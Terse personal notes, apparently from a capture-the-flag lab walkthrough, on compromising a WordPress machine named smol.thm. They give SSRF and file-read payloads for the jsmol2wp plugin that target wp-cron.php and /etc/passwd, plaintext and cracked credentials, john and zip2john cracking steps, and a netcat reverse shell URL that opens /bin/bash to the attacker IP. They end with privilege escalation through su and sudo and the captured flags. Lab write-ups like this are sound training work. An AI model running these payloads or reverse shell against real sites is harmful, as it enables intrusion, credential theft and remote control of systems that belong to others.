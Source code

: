 my ip     : 10.2.3.159
target ip : 10.10.90.197

www.smol.thm   => added to /etc/hosts

---
```
SSRF PAYLOAD :

http://www.smol.thm/wp-content/plugins/jsmol2wp/php/jsmol.php?isform=true&call=getRawDataFromDatabase&query=php://filter/resource=../../../../wp-cron.php

SSRF PAYLOAD TO READ /etc/passwd :

http://www.smol.thm/wp-content/plugins/jsmol2wp/php/jsmol.php?isform=true&call=getRawDataFromDatabase&query=file:///etc/passwd

Vulnerable file :

www.smol.thm/wp-content/plugins/jsmol2wp/php/jsmol.php?isform=true&call=getRawDataFromDatabase&query=php://filter/resource=../../hello.php
```
---

Wordpress :

   User: wpuser
   Pass: kbLSF2Vop#lw3rjDZ629*Z%G


users and passwords cracked from the hashes found in the backup.sql file:
```
(john --wordlist=rockyou.txt <hashed password file>)

think 
xavi
diego    => password cracked = sandiegocalifornia
gege	 => password cracked = hero_gege@hotmail.com (Doesnt work?)
```

---

Reverse shell payload: 
```
http://www.smol.thm/wp-admin/index.php?cmd=busybox%20nc%2010.2.3.159%209001%20-e%20/bin/bash
```

---

Connect to diego user with his cracked password

Connect to think with his private ssh key

Connect to gege with `su gege`

We found the file "wordpress.old.zip"

```
=> zip2john the file => john the hash => again this password : hero_gege@hotmail.com
```
---

We can now unzip the file and find xavi's password in wp-config.php : P@ssw0rdxavi@

su xavi => sudo -l => all commands are run as sudo => sudo su => root

user.txt = 45edaec653ff9ee06236b7ce72b86963
root.txt = bf89ea3ea01992353aef1f576214d4e4
